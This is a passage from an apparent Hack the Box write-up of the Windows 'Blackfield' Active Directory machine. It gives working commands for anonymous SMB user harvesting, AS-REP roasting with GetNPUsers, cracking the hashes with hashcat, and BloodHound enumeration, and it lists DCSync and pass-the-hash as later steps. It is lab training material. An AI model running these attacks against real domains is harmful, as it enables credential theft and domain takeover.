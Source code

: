 # Blackfield

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="912" height="443" alt="image" src="https://github.com/user-attachments/assets/d44570cb-edcc-41f3-a6af-2078cdb5ab70" />

2. SMB allows anonymous logon. We find a profiles$ share that has a list of users so create a user list from it.

`smbclient //blackfield.local/profiles$ -U '' -c ls | awk '{print $1}' > users.list`

3. Now that we have a users list, we will try ASREPRoasting to get a user hash and gain an initial foothold in the domain.

`GetNPUsers.py -request -usersfile users.list -outputfile asreproastables.txt -dc-ip 10.129.229.17 -format hashcat 'blackfield.local/'`

<img width="910" height="108" alt="image" src="https://github.com/user-attachments/assets/097681fb-ab6e-4777-8df8-5e7f5a8b9030" />

4. Success! Now crack the hash and we get user support's credentials. 

`hashcat -m 18200 asreproastables.txt /usr/share/wordlists/rockyou.txt`

5. Now that we have a valid credentials on the domain, we run Bloodhound to enumerate the network

`sudo bloodhound-python -d blackfield.local -u support -p $(cat recon/support.pass) -ns 10.129.229.17 -c all` 

6. Load files onto Bloodhound and find a path from support user to machine

<img width="708" height="96" alt="image" src="https://github.com/user-attachments/assets/26b38ef7-a133-462a-8ee1-ac1240140707" />

7. Since the user support can change Audit2020's password, we will change password and enumerate further with Audit2020's credentials.

